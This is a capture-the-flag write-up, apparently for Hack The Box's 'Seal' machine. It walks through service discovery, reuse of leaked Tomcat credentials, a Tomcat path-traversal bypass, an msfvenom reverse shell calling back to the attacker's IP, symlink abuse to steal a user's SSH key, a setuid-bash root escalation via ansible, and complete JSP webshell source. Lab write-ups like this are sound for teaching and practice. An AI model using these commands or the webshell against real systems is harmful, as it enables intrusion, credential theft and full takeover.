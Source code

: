 > Author: **[MrR3boot][author-profile]**

## Discovery

```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Issuer: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
8080/tcp open  http-proxy
```

```bash
[Status: 200, Size: 4374, Words: 749, Lines: 85, Duration: 328ms]
| URL | https://10.10.10.250/manager/status.xsd
```

The seal market webpage uses cookies:

```javascript
// "{\"Version\":1,\"ViewThrough\":\"1\",\"XDomain\":\"1\"}"
decodeURIComponent('%7B%22Version%22%3A1%2C%22ViewThrough%22%3A%221%22%2C%22XDomain%22%3A%221%22%7D')
```

The sources are available on port 8080 via a BitBucket portal:

![][gitbucket-portal]

Quickly get to the meat:

![][tomcat-password]

## Break-in

Trying all the username visible on the feed:

![][gitbucket-feed]

> `luis` `42MrHBf*z8{Z%`

The former directory enumeration listed only the [manager page](https://seal.htb:443/manager/status).
The former credentials work here too (with tomcat as username).

Here I got a very strong pointer: under the "application" tab, there were a
few shady "revshell" and the like listed. IE I should aim to upload my own
shell application.

![][tomcat-shell-applications]

The mention `Apache Tomcat/9.0.31` begs googling: it suffers from a path
traversal vulnerability. So `https://seal.htb/manager/status/..;/html` leads
to the application manager html interface.

![][upload-tomcat-shell-application]

The shell was built with:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.8 LPORT=9876 -f war -o heyhey.war
```

Still, the request fails with a "403" forbidden. Somehow, directing the request
to `jmxproxy` elevates our privileges:

![][tomcat-jmxproxy-request]

Then navigating to `/heyhey` does the trick.

## Lateral movement

Looking at the processes, there's an interesting backup running:

```
root      267159  0.0  0.0   2608   544 ?        Ss   12:52   0:00 /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
```

```yaml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

```bash
# total 604K
# drwxrwxr-x 2 luis luis 4.0K Aug 28 12:55 .
# drwxr-xr-x 4 luis luis 4.0K Aug 28 12:55 ..
# -rw-rw-r-- 1 luis luis 596K Aug 28 12:55 backup-2021-08-28-12:55:33.gz 
ls -lah /opt/backups/archives/
```

Since the backup process copies links too, we just need to point to an
interesting file to have it in the archive. The process runs as `luis`, so the
most valuable file for this user would be his ssh key:

```bash
ln -s /home/luis/.ssh/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/
cd $(mktemp -d)
cp /opt/backups/archives/backup-2021-08-28-13:20:32.gz backup.gz
gzip -kd backup.gz
file backup
# backup: POSIX tar archive
tar -xvf backup
cd dashboard/uploads/.ssh/
cat id_rsa
```

Then copy the RSA key and use it with ssh.

## Escalation

So luis can run the former backup command as root. This time we can provide
the configuration:

```yaml
---
  - name: Flag
    hosts: localhost
    tasks:
      - name: Heyhey
        command: "chmod +s /bin/bash"
```

This RCE payload is inspired by [MiddlewareInventory][middlewareinventory].

Run the backup playbook and then `/bin/bash -p` to conclude.

## Bonus: building a war application

First create the `index.jsp`:

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

Then build:

```bash
mkdir webshell && mv index.jsp webshell/ && cd webshell/
jar -cvf heyhey.war index.jsp
```

[author-profile]: https://app.hackthebox.eu/users/13531
[gitbucket-feed]: images/gitbucket-feed.png
[gitbucket-portal]: images/gitbucket-portal.png
[middlewareinventory]: https://www.middlewareinventory.com/blog/ansible-command-examples/
[tomcat-jmxproxy-request]: images/tomcat-jmxproxy-request.png
[tomcat-password]: images/tomcat-password.png
[tomcat-shell-applications]: images/tomcat-shell-applications.png
[upload-tomcat-shell-application]: images/upload-tomcat-shell-application.png
